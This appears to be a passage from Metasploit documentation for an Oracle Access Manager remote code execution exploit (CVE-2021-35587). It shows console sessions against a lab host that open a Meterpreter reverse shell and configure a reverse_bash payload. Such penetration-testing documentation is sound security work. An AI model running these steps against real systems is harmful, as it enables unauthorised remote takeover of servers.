 ```
Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > check
[*] 192.168.86.70:14100 - The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.70:49264) at 2025-04-01 12:34:15 +0100

meterpreter > getuid
Server username: oracle
meterpreter > sysinfo
Computer     : 172.18.0.4
OS           : Oracle 7.9 (Linux 6.5.0-14-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/u01/oracle/user_projects/domains/access_domain
meterpreter >
```

### Unix Command

```
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > unset Payload
Unsetting Payload...
[!] Variable "Payload" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear Payload
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set target 2
target => 2
msf exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > show options 

Module options (exploit/multi/http/oracle_access_manager_rce_cve_2021_35587):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.70    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      14100            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /oam/            yes       The base path to the OAM application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```